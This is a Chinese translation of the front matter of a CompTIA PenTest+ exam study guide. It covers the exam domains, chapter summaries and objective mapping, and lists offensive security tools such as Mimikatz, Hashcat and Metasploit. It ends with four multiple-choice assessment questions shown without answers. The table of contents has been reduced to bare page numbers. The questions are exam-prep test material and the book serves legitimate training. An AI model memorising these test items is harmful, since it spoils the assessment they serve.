# CompTIA PenTest+ 学习指南：Exam PT0-002


215. 191

216. 192

217. 193

# 第 6 章

218. 195

219. 196

220. 197

221. 198

222. 199

223. 200

224. 201

225. 202

226. 203

227. 204

228. 205

229. 206

230. 207

231. 208

232. 209

233. 210

234. 211

235. 212

236. 213

237. 214

238. 215

239. 216

240. 217

241. 218

242. 219

243. 220

244. 221

245. 222

246. 223

247. 224

248. 225

249. 226

250. 227

251. 228

252. 229

253. 230

254. 231

255. 232

256. 233

257. 234

258. 235

259. 236

260. 237

261. 238

262. 239

263. 240

264. 241

## 第 7 章

265. 243

266. 244

267. 245

268. 246

269. 247

270. 248

271. 249

272. 250

273. 251

274. 252

275. 253

276. 254

277. 255

278. 256

279. 257

280. 258

281. 259

282. 260

283. 261

284. 262

285. 263

286. 264

287. 265

288. 266

289. 267

290. 268

291. 269

292. 270

293. 271

294. 272

295. 273

296. 274

297. 275

298. 276

299. 277

300. 278

301. 279

302. 280

303. 281

304. 282

305. 283

306. 284

307. 285

308. 286

# 第 8 章

309. 287

310. 288

311. 289

312. 290

313. 291

314. 292

315. 293

316. 294

317. 295

318. 296

319. 297

320. 298

321. 299

322. 300

323. 301

324. 302


# 325. 303

# 326. 304

# 327. 305

# 328. 306

# 329. 307

# 330. 308

# 331. 309

# 332. 311

# 333. 312

# 334. 313

# 335. 314

# 336. 315

# 337. 316

# 338. 317

# 339. 318

# 340. 319

# 341. 320

# 342. 321

# 343. 322

# 344. 323

# 345. 324

# 346. 325

# 347. 326

# 348. 327

# 349. 328

# 350. 329

# 351. 330

# 352. 331

# 353. 332

# 354. 333

# 355. 334

# 356. 335

# 357. 336

# 358. 337

# 359. 338

# 360. 339

# 361. 340

# 362. 341

# 363. 342

# 364. 343

# 365. 344

# 366. 345

# 367. 346

# 368. 347

# 369. 348

# 370. 349

# 371. 350

# 372. 351

# 373. 352

# 374. 353

# 375. 355

# 376. 356

# 377. 357

# 378. 358

# 379. 359

# 380. 360

# 381. 361

# 382. 362

# 383. 363

# 384. 364

# 385. 365

# 386. 366

# 387. 367

# 388. 368

# 389. 369

# 390. 370

# 391. 371

# 392. 372

# 393. 373

# 394. 374

# 395. 375

# 396. 376

# 397. 377

# 398. 378

# 399. 379

# 400. 380

# 401. 381

# 402. 382

# 403. 383

# 404. 384

# 405. 385

# 406. 386

# 407. 387

# 408. 388

# 409. 389

# 410. 390

# 411. 391

# 412. 392

# 413. 393

# 414. 394

# 415. 395

# 416. 396

# 417. 397

# 418. 398

# 419. 399

# 420. 400

# 421. 401

# 422. 402

# 423. 403

# 424. 405

# 425. 406

# 426. 407

# 427. 408

# 428. 409

# 429. 410

# 430. 411

# 431. 412

# 432. 413

# 433. 414

# 434. 415

# 435. 416

# 436. 417

# 437. 418

# 438. 419

# 439. 420

# 440. 421

# 441. 422

# 442. 423

# 443. 424

# 444. 425

# 445. 426

# 446. 427

# 447. 429

# 448. 430

# 449. 431

# 450. 432

# 451. 433

# 452. 434

# 453. 435

# 454. 436

# 455. 437

# 456. 438

# 457. 439

# 458. 440

# 459. 441

# 460. 442

# 461. 443

# 462. 444

# 463. 445

# 464. 446

# 465. 447

# 466. 448

# 467. 449

# 468. 450

# 469. 451

# 470. 452

# 471. 453

# 472. 454

# 473. 455

# 474. 456

# 475. 457

# 476. 458

# 477. 459

# 478. 460

# 479. 461

# 480. 462

# 481. 463

# 482. 464

# 483. 465

# 484. 466

# 485. 467

# 486. 468

# 487. 469

# 488. 470

# 489. 471

# 490. 472

# 491. 473

# 492. 474

# 493. 475

# 494. 476

# 495. 477

# 496. 478

# 497. 479

# 498. 480

# 499. 481

# 500. 482

# 501. 483

# 502. 484

# 503. 485

# 504. 486

# 505. 487

# 506. 488

# 507. 489

# 508. 490

# 509. 491

# 510. 492

# 511. 493

# 512. 494

# 513. 495

# 514. 496

# 515. 497

# 516. 498

# 517. 499

# 518. 500

# 519. 501

# 520. 502

# 521. 503

# 522. 504

# 523. 505

# 524. 506

# 525. 507

# 526. 509

# 527. 510

# 528. 511

# 529. 512

# 530. 513

# 531. 514

# 532. 515

# 533. 516

# 534. 517

# 535. 518

# 536. 519

# 537. 520

# 538. 521

# 539. 522

# 540. 523

# 541. 524

# 542. 525

# 543. 526

# 544. 527

# 545. 528

# 546. 529

# 547. 530

# 548. 531


Copyright © 2022 by John Wiley & Sons, Inc. All rights reserved.

Published by John Wiley & Sons, Inc., Hoboken, New Jersey.

Published simultaneously in Canada.

978-1-119-82381-0

978-1-119-82383-4 (ebk.)

978-1-119-82382-7 (ebk.)


本出版物的任何部分未经出版商事先书面许可，或未通过向版权清算中心（Copyright Clearance Center, Inc., 222 Rosewood Drive, Danvers, MA 01923, (978) 750-8400, 传真 (978) 750-4470，或在 `www.copyright.com` 上）支付相应的每份复制费获得授权，均不得根据 1976 年美国版权法第 107 条或第 108 条允许的范围以外的任何形式或任何手段（包括电子、机械、影印、录制、扫描或其他方式）进行复制、存储在检索系统中或传输。向出版商申请许可的请求应寄送至 Permissions Department, John Wiley & Sons, Inc., 111 River Street, Hoboken, NJ 07030, (201) 748-6011, 传真 (201) 748-6008，或在线访问 `http://www.wiley.com/go/permission`。

## 责任限制/免责声明

出版商和作者不对本作品内容的准确性或完整性作出任何陈述或担保，并特此明确否认所有担保，包括但不限于特定用途适销性担保。销售或推广材料不得创建或延伸任何担保。此处包含的建议和策略可能不适用于每种情况。本作品的销售基于这样的理解：出版商不提供法律、会计或其他专业服务。如果需要专业协助，应寻求合格专业人士的服务。出版商和作者均不应对由此产生的损害承担责任。本作品中作为引用和/或进一步信息的潜在来源而提及的某个组织或网站，并不意味着作者或出版商认可该组织或网站可能提供的信息或其可能提出的建议。此外，读者应注意，本作品中列出的互联网网站在本作品撰写时和阅读时之间可能已更改或消失。

如需了解我们其他产品和服务的一般信息或技术支持，请在美国境内致电 (800) 762-2974 联系我们的客户关怀部，在美国境外致电 (317) 572-3993 或传真 (317) 572-4002。

Wiley 还以多种电子格式出版其图书。印刷版中出现的某些内容可能无法以电子格式提供。有关 Wiley 产品的更多信息，请访问我们的网站 `www.wiley.com`。

**国会图书馆控制号：2021944464**

## 商标

WILEY、Wiley 标志、Sybex 和 Sybex 标志是 John Wiley & Sons, Inc. 及/或其附属公司在美国和其他国家的商标或注册商标，未经书面许可不得使用。CompTIA 和 PenTest+ 是 The Computing Technology Industry Association, Inc. DBA CompTIA, Inc. 的商标或注册商标。所有其他商标均为其各自所有者的财产。

John Wiley & Sons, Inc. 与本书中提及的任何产品或供应商均无关联。

封面图片：© Getty Images Inc./Jeremy Woodhouse

封面设计：Wiley

*本书献给 Ron Kraemer——一位导师、朋友和出色的老板*。

# 致谢

像这样的书籍需要许多人的工作，作为作者，我们真诚感谢 Wiley 团队的辛勤工作和奉献精神。我们特别感谢高级采购编辑 Kenyon Brown。我们与 Ken 合作过多个项目，并始终享受与他合作的过程。

我们也非常感谢本书的编辑和制作团队，包括我们的项目编辑 John Sleeva，他及时且一致的监督使本书得以出版，以及我们的内容精炼专家 Barath Kumar Rajasekaran，他指导我们完成排版、格式化和最终清理，以制作出一本优秀的书籍。我们还要感谢我们的技术编辑 Nadean Tanner，她在整个过程中为我们提供了发人深省的问题和技术见解。我们还要感谢许多幕后贡献者，包括图形、制作和技术团队，他们将本书及配套材料制作成最终产品。

我们的代理人 Carole Jelen（Waterside Productions）在我们的写作生涯中继续为我们提供绝佳的机会、建议和帮助。

最后，我们要感谢我们的家人、朋友和重要他人，他们支持我们度过撰写、编辑和出版这样一本书所需的深夜、繁忙的周末和长时间工作。

# 关于作者


**Mike Chapple**，**PhD**，Security+，CISSP，CISA，PenTest+，CySA+，是圣母大学 IT、分析和运营的教学教授，也是该大学商业分析硕士项目的学术主管。

Mike 是一名网络安全专业人士，在该领域拥有超过 20 年的经验。在担任现职之前，Mike 曾担任圣母大学 IT 服务交付高级总监，负责监督大学的网络安全计划、云计算工作及其他领域。Mike 此前还曾担任 Brand Institute 的首席信息官，以及国家安全局和美国空军的信息安全研究员。

Mike 是多家杂志和网站的常客撰稿人，并著有或合著了 25 多本书籍，包括 *CISSP Official (ISC)² Study Guide*（Wiley，2021）、《CISSP Official (ISC)² Practice Tests》（Wiley，2021）、《CompTIA Security+ Study Guide》（Wiley，2020）、《CompTIA CySA+ Study Guide》（Wiley，2020）、《CompTIA CySA+ Practice Tests》（Wiley，2020）和 *Cybersecurity: Information Operations in a Connected World*（Jones and Bartlett，2021）。

Mike 在其网站 `certmike.com` 上为 PenTest+、CySA+、Security+、CISSP 和 SSCP 认证提供免费学习小组。


**David Seidl**，CISSP，PenTest+，是迈阿密大学的信息技术副总裁兼首席信息官。在其 IT 职业生涯中，他曾担任过各种技术和信息安全职务，包括担任圣母大学校园技术服务高级总监，在那里他共同领导了圣母大学向云端的迁移，并监督了云运营、ERP、数据库、身份管理以及广泛的其他技术和服务。他还曾担任圣母大学信息安全主任，并领导了圣母大学的信息安全计划。他曾作为圣母大学 Mendoza 商学院的讲师教授信息安全和网络本科课程，并撰写了关于安全认证和网络战的书籍，包括合著之前版本的 *CISSP (ISC)² Official Practice Tests*（Sybex，2018）以及 CISSP Official (ISC)² Practice Tests（Wiley，2021）、CompTIA Security+ Study Guide（Wiley，2020）、CompTIA Security+ Practice Tests（Wiley，2020）、CompTIA CySA+ Study Guide（Wiley，2020）、CompTIA CySA+ Practice Tests（Wiley，2020）和 Cybersecurity: Information Operations in a Connected World（Jones and Bartlett，2021），*以及 CompTIA Security+ Practice Tests: Exam SY0‐601*，以及其他认证指南和信息安全书籍。

David 拥有东密歇根大学的通信技术学士学位和信息安全硕士学位，以及 CISSP、CySA+、PenTest+、GPEN 和 GCIH 认证。

# 关于技术编辑


Nadean Hutto Tanner 是 FireEye/Mandiant 的 Consulting‐Education Services 经理，最近主要致力于构建现实世界的网络靶场演练，以练习威胁狩猎和事件响应。她在 IT 领域拥有 20 多年经验，专注于网络安全领域超过十年。她持有超过 30 项行业认证，包括 CompTIA CASP+ 和 ISC² CISSP。

Tanner 曾为财富 500 强企业和美国国防部提供网络安全、取证、分析、红蓝对抗、漏洞管理和安全意识方面的培训和咨询服务。

她是 `Cybersecurity Blue Team Toolkit` (Wiley, 2019) 和 `CASP+ Practice Tests: Exam CAS‐003` (Sybex, 2020) 的作者。她还担任了由 Mike Chapple 和 David Seidl 编写的 `CompTIA Security+ Study Guide: Exam SY0‐601` (Sybex, 2021) 的技术编辑。

在业余时间，她喜欢在 Black Hat、Wild West Hacking Fest 和 OWASP 等技术会议上发表演讲。

WileyPRE

# Introduction

start ?The `CompTIA`^® `PenTest+^® Study Guide: Exam PT0‐002` `Second Edition` 提供了易于理解的解释和关于构成 PenTest+ 认证的考试目标的现实世界知识。本书将帮助你在参加考试前评估自己的知识，并为你在可能希望扩展技能或专业知识的领域进一步学习提供垫脚石。end ?

在迎接 PenTest+ 考试之前，你应该已经是一名安全从业者。CompTIA 建议考生应根据其网络安全路径具备中级技能。你还应熟悉本书中描述的至少一些工具和技术。你不需要知道每一种工具，但了解如何利用现有经验来应对你可能不了解的新场景、工具或技术，对于通过 PenTest+ 考试至关重要。

## CompTIA

CompTIA 是一个非营利性贸易组织，在各种 IT 领域提供认证，范围从 PC 支持技术人员所需的技能（在 A+ 考试中涵盖）到高级认证，例如 CompTIA 高级安全从业者（CASP）认证。CompTIA 根据考试所需的技能水平和涵盖的主题将其考试分为三个类别，如下表所示：

| 初级/新手 || 中级 || 高级 |

| --- | --- | --- |

| IT 基础  

A+ || Network+  

Security+  

CySA+  

PenTest+ || CASP |

| --- | --- | --- |

CompTIA 建议从业者遵循网络安全职业路径，从 IT 基础和 A+ 考试开始，然后继续包括 Network+ 和 Security+ 凭据以完成基础。从那里，网络安全专业人员可以选择 PenTest+ 和/或网络安全分析师+（CySA+）认证，然后再尝试 CompTIA 高级安全从业者（CASP）认证作为顶峰凭据。

CySA+ 和 PenTest+ 考试是更高级的考试，面向拥有实践经验并具备先前考试所涵盖知识的专业人士。

CompTIA 认证已获得 ISO 和 ANSI 认证，并在多个行业中广泛用作衡量技术技能和知识的标准。此外，包括 Security+ 和 CASP 在内的 CompTIA 认证已获得美国政府批准，作为信息保障基线认证，并列入国务院的技能激励计划。

## PenTest+ 考试

PenTest+ 考试旨在成为渗透测试人员的供应商中立认证。它旨在评估当前的渗透测试、漏洞评估和漏洞管理技能，重点关注网络弹性测试。成功的考生将证明其能够规划和范围评估、处理法律和合规要求，并使用各种工具和技术执行漏洞扫描和渗透测试活动，然后分析这些活动的结果。

它涵盖五个主要领域：

1.  规划和范围

2.  信息收集和漏洞扫描

3.  攻击和利用

4.  报告和沟通

5.  工具和代码分析

这五个领域包括一系列子主题，从渗透测试范围到执行主机枚举和利用，同时大量关注基于场景的学习。

PenTest+ 考试介于入门级 Security+ 考试和 CompTIA 高级安全从业者（CASP）认证之间，为那些在认证和职业道路上寻求下一步并专注于渗透测试或漏洞管理的人提供中级职业认证。

PenTest+ 考试采用 CompTIA 称为“基于绩效的评估”的格式进行。这意味着考试使用实际安全工具和场景的动手模拟来执行与安全从业者日常工作中发现的任务相匹配的任务。考试问题可能有多种类型，例如多项选择、填空、多项响应、拖放和基于图像的问题。

CompTIA 建议考生在参加此考试之前拥有三到四年的信息安全相关经验，并且已经参加过 Security+ 考试或具有等效经验，包括技术性的动手专业知识。考试在美国的费用为 370 美元，全球其他地点的价格大致相当。有关 PenTest+ 考试及如何参加的更多详情，请访问：

[`certification.comptia.org/certifications/pentest`](https://certification.comptia.org/certifications/pentest)

### 学习和考试准备技巧

像这样的考试准备书籍无法教你考试中可能出现的每一种可能的安全软件包、场景和特定技术。相反，你在阅读本书时，应该关注自己是否熟悉所呈现的技术、工具、流程或场景的类型或类别。如果你发现存在差距，你可能需要寻找额外的工具来帮助你了解更多关于这些主题的信息。

动手练习的额外资源包括以下内容：

*   [Exploit-Exercises.com](http://exploit-exercises.com) 提供涵盖广泛安全问题的虚拟机、文档和挑战，网址为 [`exploit-exercises.com`](https://exploit-exercises.com)。

*   Hacking‐Lab 在各种领域提供夺旗（CTF）练习，网址为 [`www.hacking-lab.com/index.html`](https://www.hacking-lab.com/index.html)。

*   OWASP Hacking Lab 提供出色的 Web 应用程序导向练习，网址为 [`www.owasp.org/index.php/OWASP\_Hacking\_Lab`](https://www.owasp.org/index.php/OWASP_Hacking_Lab)。

*   PentesterLab 提供基于订阅的渗透测试练习访问权限，网址为 [`www.pentesterlab.com/exercises`](https://www.pentesterlab.com/exercises)。

由于考试采用基于场景的学习，预计问题将涉及分析和思考，而不是依赖简单的记忆。正如你所料，在书中无法复制这种体验，因此这里的问题旨在帮助你有信心自己对主题了解得足够好，能够思考动手练习。

### 参加考试

一旦你完全准备好参加考试，就可以访问 CompTIA 网站购买考试凭证：

[`store.comptia.org/Certification-Vouchers/c/11293`](https://store.comptia.org/Certification-Vouchers/c/11293)

CompTIA 与 Pearson VUE 的考试中心合作，因此你的下一步将是找到附近的考试中心。在美国，你可以根据地址或邮政编码进行查找，而非美国考生可能会发现输入所在城市和国家更容易。你可以在以下网址搜索附近的考试中心：


[`www.pearsonvue.com/comptia/locate`](http://www.pearsonvue.com/comptia/locate)

既然你知道想在哪里参加考试，只需设置一个 Pearson VUE 测试账户并安排考试：

[`home.pearsonvue.com/comptia/onvue`](https://home.pearsonvue.com/comptia/onvue)

考试当天，请携带两种身份证明，并确保在考试开始前有充足的时间到达。请记住，您不得携带笔记、电子设备（包括智能手表和手机）或其他材料进入考场。

在某些国家（包括美国），您可能有资格通过 Pearson OnVUE 计划在家中或办公室在线参加考试。有关该计划及当前可用性的更多信息，请参见：

[`home.pearsonvue.com/Clients/CompTIA/OnVUE-online-proctored.aspx`](https://home.pearsonvue.com/Clients/CompTIA/OnVUE-online-proctored.aspx)

### PenTest+ 考试之后

参加考试后，您将立即收到分数通知，因此您会立即知道是否通过了考试。您应将分数报告与考试注册记录以及用于注册考试的电子邮件地址保存在一起。如果您通过了考试，您将获得一份漂亮的证书，类似于此处所示的证书：



#### 维持您的认证

CompTIA 认证必须定期续期。要续期您的认证，您可以参加最新版本的考试，获得符合条件的更高级别的 CompTIA 或行业认证，或完成足够的继续教育活动以获得足够的继续教育学分（CEUs）来续期。

CompTIA 通过其网站提供续期信息：

[`certification.comptia.org/continuing-education/how-to-renew`](https://certification.comptia.org/continuing-education/how-to-renew)

当您注册续期认证时，您将被要求同意 CE 计划的道德准则，支付续期费用，并提交所选续期方法所需的材料。

可用于获取 CEUs 以续期 PenTest+ 的行业认证完整列表可在此处找到：

[`certification.comptia.org/continuing-education/choose/renewal-options`](https://certification.comptia.org/continuing-education/choose/renewal-options)

## 本书涵盖的内容

本书旨在涵盖 PenTest+ 考试中包含的五个领域：

*   **第 1 章：渗透测试** 了解渗透测试的基础知识，开始深入探索该领域。在本章中，您将了解组织进行渗透测试的原因以及渗透测试在网络安全计划中的作用。

*   **第 2 章：规划和界定渗透测试范围** 适当的规划对于渗透测试至关重要。在本章中，您将学习如何定义交互规则、范围、预算以及在渗透测试开始前需要确定的其他细节。合同、合规性和法律问题以及授权的细节都将讨论，以便您可以确保在测试开始前已获得保障。

*   **第 3 章：信息收集** 收集信息是渗透测试的最早阶段之一。在本章中，您将学习如何通过被动方式收集开源情报（OSINT）。一旦您拥有 OSINT，就可以利用您将在本章后半部分学习的主动扫描和枚举技术及工具。

*   **第 4 章：漏洞扫描** 管理漏洞有助于保持系统安全。在本章中，您将学习如何进行漏洞扫描，并将其作为渗透测试的重要信息来源。

*   **第 5 章：分析漏洞扫描** 漏洞报告可能包含关于系统潜在问题的大量数据。在本章中，您将学习如何阅读和分析漏洞扫描报告，什么是 CVSS 评分及其含义，以及如何选择适当的措施来修复您发现的问题。在此过程中，您将探索常见的漏洞类型、它们对系统和网络的影响，以及它们在渗透测试中可能被利用的方式。

*   **第 6 章：利用和横向移动** 一旦您有了漏洞列表，就可以根据成功的可能性和攻击方法的可用性来优先处理利用。在本章中，您将探索常见的攻击技术和工具以及何时使用它们。一旦您获得访问权限，就可以转移到以前可能无法访问的其他系统或网络。您将学习在进入网络安全边界后用于横向移动的工具和技术，如何掩盖您的踪迹，以及如何隐藏您努力的证据。

*   **第 7 章：利用网络漏洞** 渗透测试人员通常从针对常见服务的网络攻击开始。在本章中，您将探索最常被攻击的服务，包括 NetBIOS、SMB、SNMP 等。您将学习中间人攻击、特定于网络的技术，以及如何攻击无线网络和系统。

*   **第 8 章：利用物理和社会漏洞** 人类是组织安全态势中最脆弱的部分，渗透测试人员需要知道如何利用组织中的人为因素。在本章中，您将探索社会工程学方法、动机技术和社会工程学工具。一旦您知道如何利用人类行为，您将探索如何获取并利用对建筑物和其他受保护区域的物理访问权限。

*   **第 9 章：利用应用程序漏洞** 应用程序是测试人员和黑客的首选起点。如果攻击者能够突破 Web 应用程序的安全性并访问支持该应用程序的后端系统，他们通常就拥有发动大规模攻击所需的起点。在本章中，我们将探讨渗透测试中常被利用的许多应用程序漏洞。

*   **第 10 章：攻击主机、云技术和专用系统** 攻击主机依赖于了解 Windows 和 Linux 的操作系统特定漏洞，以及几乎所有操作系统中常见的问题。在本章中，您将了解针对 Windows 和 Linux 主机使用的攻击方法、凭据攻击和密码破解、虚拟机和容器攻击的工作原理，以及针对云技术使用的攻击向量和技术。您还将探索针对移动设备、IoT 和工业控制系统、数据存储以及其他专用系统的攻击。

*   **第 11 章：报告和沟通** 渗透测试只有在渗透测试人员能够有效地向管理层和技术人员传达组织状况时才对组织有用。在本章中，我们将注意力转向渗透测试的关键最终阶段：报告和沟通我们的结果。


## 第 12 章：渗透测试脚本编写

脚本语言提供了一种自动化渗透测试重复性任务的方法。渗透测试人员不需要是软件工程师。一般来说，渗透测试人员不需要编写极其冗长的代码，或开发供许多人使用的应用程序。渗透测试人员应掌握的主要开发技能是能够阅读用各种常见语言编写的相当简单的脚本，并根据自己的独特需求对其进行调整。本章将探讨这些内容。

## 练习考试

完成学习后，练习考试将为您提供测试知识的机会。使用此考试来找出可能需要进一步学习的地方，或验证您是否已准备好参加考试。我们会为您加油！

## 附录：章节复习问题答案

附录中包含每章末尾复习问题的答案。

## 目标映射

以下列表总结了主要的 PenTest+ 目标领域如何映射到本书的章节中。如果您想学习特定领域，此映射可以帮助您确定阅读重点。

*   **规划与范围界定：** 第 1 章，第 2 章
*   **信息收集与漏洞扫描：** 第 3 章，第 4 章，第 5 章，第 6 章
*   **攻击与利用：** 第 6 章，第 7 章，第 8 章，第 9 章，第 10 章
*   **报告与沟通：** 第 11 章
*   **工具与代码分析：** 第 3 章，第 4 章，第 5 章，第 6 章，第 7 章，第 8 章，第 9 章，第 10 章，第 11 章，第 12 章

在本介绍的后面，您将找到一张详细地图，显示每个目标主题在哪里进行了讲解。

本书旨在随着您的进展构建您的知识，因此从头开始是个好主意。每章都包含有关重要内容的注释和练习问题，以帮助您测试知识。一旦准备就绪，将提供一份完整的练习测试来评估您的知识。

## 学习指南要素

本学习指南使用了一些常见元素来帮助您准备。这些元素包括：

*   **摘要** 每章的摘要部分简要说明了章节内容，使您能够轻松了解其涵盖范围。
*   **考试要点** 考试要点侧重于主要考试主题和您参加考试时应掌握的关键知识。考试要点侧重于 CompTIA 提供的考试目标。
*   **章节复习问题** 每章末尾的一组问题将帮助您评估知识，并根据您对该章主题的了解判断自己是否已准备好参加考试。
*   **实验练习** 实验练习提供更深入的练习机会，以扩展您的技能，并更好地为 PenTest+ 考试中的基于性能的测试做准备。
*   **现实世界场景** 每章中包含的现实世界场景讲述故事，并提供安全专业人员视角下章节主题的示例。它们包括时事、个人经验以及解决实际问题的方法。

## 交互式在线学习环境

随 *CompTIA® PenTest+^® Study Guide: Exam PT0‐002* 第二版提供的交互式在线学习环境提供了一个题库，其中包含学习工具，帮助您准备认证考试——并提高您一次通过考试的机会！题库包含以下元素：

*   **样例测试** 本书中的所有问题均可在线获取，包括您将在本介绍末尾找到的评估测试，以及包含每章末尾复习问题的章节测试。此外，还有一份练习考试。使用这些问题来测试您对学习指南材料的了解。在线题库可在多种设备上运行。
*   **闪卡** 问题以数字闪卡格式提供（一个问题后跟一个正确答案）。您可以使用闪卡来巩固学习，并在考试前进行最后的考试准备。
*   **其他学习工具** 本书关键术语及其定义的术语表可作为完全可搜索的 PDF 提供。

## CompTIA PenTest+ 认证考试目标

*CompTIA PenTest+ Study Guide* 已编写完成，旨在以适合其考试权重的水平覆盖每个 PenTest+ 考试目标。下表提供了本书考试覆盖范围的细分，向您展示每个部分的权重以及每个目标或子目标所在的章节。

| 领域 | 考试百分比 |
| --- | --- |
| 1.0 规划与范围界定 | 14% |
| 2.0 信息收集与漏洞扫描 | 22% |
| 3.0 攻击与利用 | 30% |
| 4.0 报告与沟通 | 18% |
| 5.0 工具与代码分析 | 16% |
| **总计** | **100%** |

### 1.0 规划与范围界定

| 考试目标 | 章节 |
| --- | --- |
| **1.1 比较和对比治理、风险和合规性概念** | 2 |
| **1.2 解释范围界定和组织/客户要求的重要性** | 2 |
| **1.3 鉴于某个场景，通过保持专业性和诚信来展示道德黑客思维** | 1 |

### 2.0 信息收集与漏洞扫描

| 考试目标 | 章节 |
| --- | --- |
| **2.1 鉴于某个场景，执行被动侦察** | 3 |
| **2.2 鉴于某个场景，执行主动侦察** | 3 |
| **2.3 鉴于某个场景，分析侦察练习的结果** | 3 |
| **2.4 鉴于某个场景，执行漏洞扫描** | 3，4，5 |
| 漏洞扫描的注意事项 | 4 |
| 扫描已识别目标的漏洞 | 4，5 |
| 设置扫描设置以避免被检测 | 4 |
| 扫描方法 | 4，5 |
| Nmap | 3 |
| 便于自动化的漏洞测试工具 | 3，4 |

### 3.0 攻击与利用

| 考试目标 | 章节 |
| --- | --- |
| **3.1 鉴于某个场景，研究攻击向量并执行网络攻击** | 7 |
| **3.2 鉴于某个场景，研究攻击向量并执行无线攻击** | 7 |
| **3.3 鉴于某个场景，研究攻击向量并执行基于应用程序的攻击** | 9 |
| **3.4 鉴于某个场景，研究攻击向量并执行针对云技术的攻击** | 10 |
| **3.5 解释针对专用系统的常见攻击和漏洞** | 10 |
| **3.6 鉴于某个场景，执行社会工程或物理攻击** | 8 |
| **3.7 鉴于某个场景，执行后利用技术** | 6 |

### 4.0 报告与沟通

| 考试目标 | 章节 |
| --- | --- |
| **4.1 比较和对比书面报告的重要组成部分** | 11 |
| **4.2 鉴于某个场景，分析调查结果并在报告中推荐适当的补救措施** | 11 |
| **4.3 解释渗透测试过程中沟通的重要性** | 11 |
| **4.4 解释报告交付后的活动** | 11 |

### 5.0 工具与代码分析

| 考试目标 | 章节 |
| --- | --- |


### 5.1 解释脚本和软件开发的基本概念

12

### 5.2 针对给定场景，分析用于渗透测试的脚本或代码示例

12

### 5.3 解释以下工具在渗透测试各阶段的用例

3, 4, 6, 7, 8, 9, 10

#### 扫描器

4

- `Nikto`
- `Open vulnerability assessment scanner (OpenVAS)`
- `SQLmap`
- `Nessus`
- `Open Security Content Automation Protocol (SCAP)`
- `Wapiti`
- `WPScan`
- `Brakeman`
- `Scout Suite`

10

## 凭据测试工具

10

- `Hashcat`
- `Medusa`
- `Hydra`
- `CeWL`
- `John the Ripper`
- `Cain`
- `Mimikatz`
- `Patator`
- `DirBuster`

10

#### 调试器

9

- `OllyDbg`
- `Immunity Debugger`
- `GNU Debugger (GDB)`
- `WinDbg`
- `Interactive Disassembler (IDA)`
- `Covenant`
- `SearchSploit`

6

### OSINT

3

- `WHOIS`
- `Nslookup`
- `Fingerprinting Organization with Collected Archives (FOCA)`
- `theHarvester`
- `Shodan`
- `Maltego`
- `Recon‐ng`
- `Censys`

3

## 无线

7

- `Aircrack‐ng suite`
- `Kismet`
- `Wifite2`
- `Rogue access point`
- `EAPHammer`
- `Mdk4`
- `Spooftooph`
- `Reaver`
- `Wireless Geographic Logging Engine (WiGLE)`
- `Fern`

7

## Web 应用程序工具

9

- `OWASP ZAP`
- `Burp Suite`
- `Gobuster`
- `W3af`

10

## 社会工程学工具

8

- `Social Engineering Toolkit (SET)`
- `BeEF`

8

## 远程访问工具

10

- `Secure Shell (SSH)`
- `Ncat`
- `Netcat`
- `ProxyChains`

10

## 网络工具

7

- `Wireshark`
- `Hping`

7

## 杂项

6

- `SearchSploit`
- `Responder`
- `Impacket tools`
- `Empire`
- `Metasploit`
- `mitm6`
- `CrackMapExec`
- `TruffleHog`
- `Censys`

3

## 隐写术工具

9

- `OpenStego`
- `Steghide`
- `Snow`
- `Coagula`
- `Sonic Visualizer`
- `TinEye`

9

## 云工具

10

- `Scout Suite`
- `CloudBrute`
- `Pacu`
- `Cloud Custodian`

10

## 评估测试

如果你正在考虑参加 PenTest+ 考试，你应该已经参加并通过了 CompTIA Security+ 和 Network+ 考试，或拥有同等经验——通常在该领域至少有三到四年的经验。你可能还持有其他同等或相关的认证。以下评估测试将帮助确保你在迎接 PenTest+ 认证之前具备所需的知识，并帮助你确定可能希望在这本书上花费最多时间的地方。

1. Ricky 正在对 Web 应用程序进行渗透测试，并正在寻找可利用的潜在漏洞。以下哪种漏洞通常不存在于 Web 应用程序中？

   1. SQL 注入
   2. VM 转义
   3. 缓冲区溢出
   4. 跨站脚本

2. 通常使用哪种专门类型的法律文件来保护渗透测试人员可能遇到的数据和其他信息的机密性？

   1. SOW
   2. NDA
   3. MSA
   4. 竞业禁止协议

3. Chris 正在协助 Ricky 进行渗透测试，并希望将漏洞搜索扩展到包括动态测试的使用。他可以使用以下哪种工具作为拦截代理？

   1. ZAP
   2. Nessus
   3. SonarQube
   4. OllyDbg

4. Matt 是渗透测试团队的一员，正在使用团队开发的标准工具包。他正在执行名为 `password.sh` 的密码破解脚本。该脚本最可能使用哪种语言编写？

   1. PowerShell
   2. Bash
   3. Ruby
   4. Python

